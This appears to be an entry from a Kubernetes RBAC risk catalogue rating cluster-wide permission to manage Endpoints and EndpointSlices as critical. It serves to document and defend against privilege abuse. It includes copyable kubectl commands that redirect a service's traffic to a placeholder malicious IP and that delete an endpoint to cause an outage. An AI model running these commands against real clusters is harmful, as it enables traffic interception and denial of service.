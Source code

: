 ```yaml
---
id: 1073
title: "Manage Endpoints or EndpointSlices cluster-wide"
description: "Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies."
category: NetworkManipulation
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                                 |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1073                                                                                                                                                  |
| Name          | Manage Endpoints or EndpointSlices cluster-wide                                                                                                       |
| Risk Category | NetworkManipulation                                                                                                                                   |
| Risk Level    | {{< risk Critical >}}                                                                                                                                 |
| Role Type     | ClusterRole                                                                                                                                           |
| API Groups    | core, discovery.k8s.io                                                                                                                                |
| Resources     | endpoints, endpointslices                                                                                                                             |
| Verbs         | create, update, patch, delete, get, list                                                                                                              |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "ManInTheMiddle" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service to a malicious IP.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'kubernetes' service)

```

2. Delete an existing Endpoint, causing service disruption (DoS).

```bash {copy=true}
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-app-service -n production

```
